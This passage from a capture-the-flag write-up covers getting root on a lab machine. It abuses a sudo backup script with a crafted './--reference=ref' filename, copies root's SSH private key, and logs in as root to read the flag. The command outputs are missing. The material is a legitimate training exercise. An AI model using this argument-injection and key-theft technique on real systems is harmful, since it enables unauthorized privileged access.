







5.7 Get root
1. Run the following commads on the victim's machine.
ze_perlman@perlman:~$ cd /opt
ze_perlman@perlman:/opt$ cd backup/
ze_perlman@perlman:/opt/backup$ cat bk
Output:

2. Run the following commands.
ze_perlman@perlman:/opt/backup$ touch ref
ze_perlman@perlman:/opt/backup$ touch "./--reference=ref"
ze_perlman@perlman:/opt/backup$ cat ../vfy.txt
Output:

ze_perlman@perlman:/opt/backup$ sudo /bin/bash /opt/backup/bk desired-root-2022
Output:

ze_perlman@perlman:/opt/backup$ ls -l
Output:

ze_perlman@perlman:/opt/backup$ cp id_rsa /dev/shm/
ze_perlman@perlman:/dev/shm$ mv id_rsa root && chmod 600 root
ze_perlman@perlman:/dev/shm$ ls -l
Output:

3. Connect via SSH as “root”.
ze_perlman@perlman:/dev/shm$ ssh -i root root@localhost
Output:

4. Get the flag.
root@perlman:~# cat root.txt
Output:
